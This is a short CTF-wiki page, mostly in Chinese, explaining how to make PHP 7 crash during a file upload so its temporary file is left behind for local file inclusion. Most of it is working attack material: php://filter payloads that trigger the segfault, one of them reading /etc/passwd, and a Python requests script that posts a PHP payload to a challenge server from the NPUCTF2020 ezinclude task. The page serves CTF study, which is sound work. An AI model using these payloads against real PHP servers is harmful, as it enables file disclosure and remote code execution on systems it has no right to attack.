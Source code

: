 # php7 segment fault临时文件包含
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留


1.利用能访问的phpinfo页面，对其一次发送大量数据造成临时文件没有及时被删除


2.PHP版本<7.2，利用php崩溃留下临时文件


php < 7.2php://filter/string.strip_tags/resource=/etc/passwd

* 
php7 老版本通杀php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA

* 
```plain
import requestsfrom io import BytesIOurl="http://f0af8aa4-9e9c-40a8-9003-175dbc6f69f8.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"payload="<?php phpinfo();?>"files={    "file":BytesIO(payload.encode())}r=requests.post(url=url,files=files,allow_redirects=False)
print(r.text)
Python
```



原题：[NPUCTF2020]ezinclude


